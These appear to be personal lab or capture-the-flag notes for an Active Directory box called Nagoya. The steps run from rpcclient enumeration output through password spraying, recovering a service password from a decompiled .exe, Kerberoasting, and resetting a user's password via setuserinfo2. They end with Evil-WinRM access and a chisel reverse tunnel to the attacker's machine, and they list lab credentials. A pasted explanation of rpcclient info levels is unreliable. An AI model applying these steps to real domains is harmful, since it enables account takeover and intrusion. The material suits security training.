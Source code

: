 
![image](https://github.com/user-attachments/assets/2e8337d8-f6cb-4c3a-8816-1129b8263f99)
![image](https://github.com/user-attachments/assets/e4dc7324-0148-41cc-8da8-bf5ca898b0fc)
![image](https://github.com/user-attachments/assets/7e4417b9-0c66-4c08-bf7a-fa4e23f12185)
![image](https://github.com/user-attachments/assets/8909ecd9-97bd-46d6-bab0-d6b0ae65b6da)
![image](https://github.com/user-attachments/assets/186c04c2-f5d7-4c7e-932c-161c77b7b966)
![image](https://github.com/user-attachments/assets/0657932d-f33f-48c9-80e6-c6920e0f8188)
![image](https://github.com/user-attachments/assets/b6bab0fe-71fb-46b2-913b-d5c049eb9a7d)
![image](https://github.com/user-attachments/assets/07737a64-d19f-47b4-8aa3-82809a097b65)
![image](https://github.com/user-attachments/assets/cec77848-63fa-4fb7-84cf-5bcebf20aa96)
![image](https://github.com/user-attachments/assets/0f1fece0-9a28-45d4-8cb2-b444e07041ec)
![image](https://github.com/user-attachments/assets/c7236729-5f98-4faf-89f0-acd63d52dcba)
![image](https://github.com/user-attachments/assets/9654e838-5759-44dc-b974-82b748215a10)
![image](https://github.com/user-attachments/assets/8aa3e6fa-5fd8-416d-80bf-56495445d6b0)
![image](https://github.com/user-attachments/assets/3ea5fbe1-8d05-4308-8c71-55858588a1f9)
![image](https://github.com/user-attachments/assets/c0904506-69f1-403e-9724-af34ea1dbb93)
![image](https://github.com/user-attachments/assets/88527838-2a47-4325-a151-128049d13370)
![image](https://github.com/user-attachments/assets/74f09e31-a604-4c95-8212-b7bd7d969920)
![image](https://github.com/user-attachments/assets/e2ee4dc3-1b0e-4b8a-8205-afad5e452f2a)
![image](https://github.com/user-attachments/assets/84e0b467-ad14-47e7-890c-63af9e5e3f9a)
![image](https://github.com/user-attachments/assets/8b50dfa9-6dff-4d10-ba2e-62a113e7fdac)
![image](https://github.com/user-attachments/assets/b896e409-9b12-4839-abec-18af7d05faac)
![image](https://github.com/user-attachments/assets/8d3db80e-1ec3-4124-be1f-fd7f137598a1)
![image](https://github.com/user-attachments/assets/f7ae538b-e3d7-4656-bd78-1d788d2f09d0)
![image](https://github.com/user-attachments/assets/a1e7d0d5-34de-4d5b-ad5f-9194a25317b3)
![image](https://github.com/user-attachments/assets/869f244f-5491-4cb2-8b6b-52a2602f91f5)
![image](https://github.com/user-attachments/assets/f4a2faa0-ce3a-4c5e-bfc9-a3237940d792)
![image](https://github.com/user-attachments/assets/d09bd766-06bb-43fb-bec1-2876b5b81fdb)
![image](https://github.com/user-attachments/assets/9f71f69b-c8cf-4a26-9e40-fec21b399b29)
![image](https://github.com/user-attachments/assets/0387330d-ec7d-4c89-9b92-a9d55d7fd28c)
```
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[svc_helpdesk] rid:[0x450]
user:[Matthew.Harrison] rid:[0x452]
user:[Emma.Miah] rid:[0x453]
user:[Rebecca.Bell] rid:[0x454]
user:[Scott.Gardner] rid:[0x455]
user:[Terry.Edwards] rid:[0x456]
user:[Holly.Matthews] rid:[0x457]
user:[Anne.Jenkins] rid:[0x458]
user:[Brett.Naylor] rid:[0x459]
user:[Melissa.Mitchell] rid:[0x45a]
user:[Craig.Carr] rid:[0x45b]
user:[Fiona.Clark] rid:[0x45c]
user:[Patrick.Martin] rid:[0x45d]
user:[Kate.Watson] rid:[0x45e]
user:[Kirsty.Norris] rid:[0x45f]
user:[Andrea.Hayes] rid:[0x460]
user:[Abigail.Hughes] rid:[0x461]
user:[Melanie.Watson] rid:[0x462]
user:[Frances.Ward] rid:[0x463]
user:[Sylvia.King] rid:[0x464]
user:[Wayne.Hartley] rid:[0x465]
user:[Iain.White] rid:[0x467]
user:[Joanna.Wood] rid:[0x468]
user:[Bethan.Webster] rid:[0x469]
user:[Elaine.Brady] rid:[0x46b]
user:[Christopher.Lewis] rid:[0x46c]
user:[Megan.Johnson] rid:[0x46d]
user:[Damien.Chapman] rid:[0x46e]
user:[Joanne.Lewis] rid:[0x46f]
user:[svc_mssql] rid:[0x470]
user:[svc_tpl] rid:[0x471]
user:[svc_web] rid:[0x472]
rpcclient $> queryusergroups 0x452
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x453
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x454
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x455
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x456
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x457
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x458
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x459
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x460
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x461
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x462
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x463
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x464
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x465
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x466
result was NT_STATUS_NO_SUCH_USER
rpcclient $> queryusergroups 0x467
        group rid:[0x201] attr:[0x7]
        group rid:[0x466] attr:[0x7]
rpcclient $> queryusergroups 0x468
        group rid:[0x201] attr:[0x7]
        group rid:[0x466] attr:[0x7]
rpcclient $> queryusergroups 0x469
        group rid:[0x201] attr:[0x7]
        group rid:[0x466] attr:[0x7]
rpcclient $> queryusergroups 0x46b
        group rid:[0x201] attr:[0x7]
        group rid:[0x46a] attr:[0x7]
rpcclient $> queryusergroups 0x46c
        group rid:[0x201] attr:[0x7]
        group rid:[0x46a] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x46d
        group rid:[0x201] attr:[0x7]
        group rid:[0x46a] attr:[0x7]
rpcclient $> queryusergroups 0x46e
        group rid:[0x201] attr:[0x7]
        group rid:[0x46a] attr:[0x7]
rpcclient $> queryusergroups 0x46f
        group rid:[0x201] attr:[0x7]
        group rid:[0x46a] attr:[0x7]
rpcclient $> queryusergroups 0x470
        group rid:[0x201] attr:[0x7]
rpcclient $> queryusergroups 0x471
        group rid:[0x201] attr:[0x7]
rpcclient $> queryusergroups 0x472
        group rid:[0x201] attr:[0x7]
rpcclient $> 
```
![image](https://github.com/user-attachments/assets/7ba66983-72c6-42f7-adbc-1cc5d7c9f767)
![image](https://github.com/user-attachments/assets/16956a2e-f97a-47ae-9ef7-3f39dcb955d9)
![image](https://github.com/user-attachments/assets/b5d06cca-83ee-4650-b5a5-02f4f0492012)
![image](https://github.com/user-attachments/assets/0b28c01b-8d3f-4906-a19d-26408855c8d6)
![image](https://github.com/user-attachments/assets/8d914551-5f15-4147-9dbd-22513a77b6da)
![image](https://github.com/user-attachments/assets/63fcf5cf-8627-4316-8eb2-9490d13a5e32)

Take a break.



1. website --> Team --> list of team members --> generate user list

2. brute force SMB (crackmapexec -u users.txt -p rockyou.txt) --> no valid user:password

3. enum4linux-ng --> no useful info

4. crackmapexec SMB again with -p 'nagoya', 'Nagoya', 'nagoya2023', 'Nagoya2023' (website built in 2023)

5. valid creds Andrea.Hayes:Nagoya2023

6. crackmapexec winrm --> fail, crackmapexec rdp --> error --> try nxc rdp --> valid

7. RDP with Andrea.Hayes:Nagoya2023 --> fail

8. smbclient --> get ResetPassword info (.exe and .exe.config)

9. cat ResetPassword.exe.config --> no useful info

10. strings ResetPassword.exe --> no useful info

11. check ResetPassword.exe with dnSpy.exe --> wine dnSpy.exe --> open ResetPassword.exe --> get username svc_helpdesk and password U299iYRmikYTHDbPbxPoYYfa2j4x4cdg

12. svc_helpdesk creds not get into machine

13. cannot find entry point --> try impacket-GetUserSPNs with Andrea.Hayes:Nagoya2023 --> get two usernames: svc_helpdesk and svc_mssql

14. get kerberoast and crack --> svc_mssql password is Service1

15. rpcclient with svc_helpdesk cred --> get domain users and domain groups

16. queryusergroups to check which groups each user is in --> user Christopher.Lewis (0x46c) in 3 groups (domain user, developer and employee groups), all others only in 1 or 2 groups

17.
```
In the rpcclient tool, the setuserinfo function is used to modify user account information on a remote Windows system. The level parameter in this context refers to the level of information detail that you want to modify or retrieve when working with user account data.
Commonly used levels for user account information include:

Level 0: Basic information, such as username and full name.

Level 1: Additional information, including home directory, script path, and profile path.

Level 2: Further information, like password age, privileges, and logon script.

Level 3: Detailed information, including all the above and group memberships.

Level 4: Even more detailed information, including all the above and security identifier (SID).

To set a user's password using the rpcclient tool, you would typically use setuserinfo2 function with a level of 23.

The level parameter corresponds to the level of user information that you're modifying, and for changing passwords, the relevant level is 23. Level 23 includes all the attributes from level 1 (which provides basic user information) and adds the ability to modify the user's password.

The setuserinfo function in rpcclient is typically used to modify user account information, but it might not directly support changing passwords. To change a user's password using rpcclient, the setuserinfo2 function with level 23 is the recommended approach.

The setuserinfo2 function with level 23 allows you to modify password-related information, including changing the user's password. Level 23 includes all the attributes from level 1 and provides the additional functionality to manage passwords.

While some versions of rpcclient might support changing passwords using setuserinfo with certain parameters, it's safer and more consistent to use setuserinfo2 with level 23 for password changes.
```
18. reset Christopher.Lewis password to Password123

19. Evil-WinRM into machine with Christopher.Lewis new password --> get local.txt flag

20. already get svc_mssql username and password from previous steps, directory svc_mssql under C:\Users\ but initial port scan no mssql port 1433 open

21. netstat -ano | findstr LISTENING --> check open ports --> port 1433 is listening

22. port forwarding:
````
# kali machine
chisel server --port 445 --reverse
# target machine
cmd /c chisel.exe <serverIP:port> R:<kali port to forward to>:127.0.0.1:<local port to forward>
chisel.exe client $KaliIP:445 R:1433:127.0.0.1:1433
````
23. 
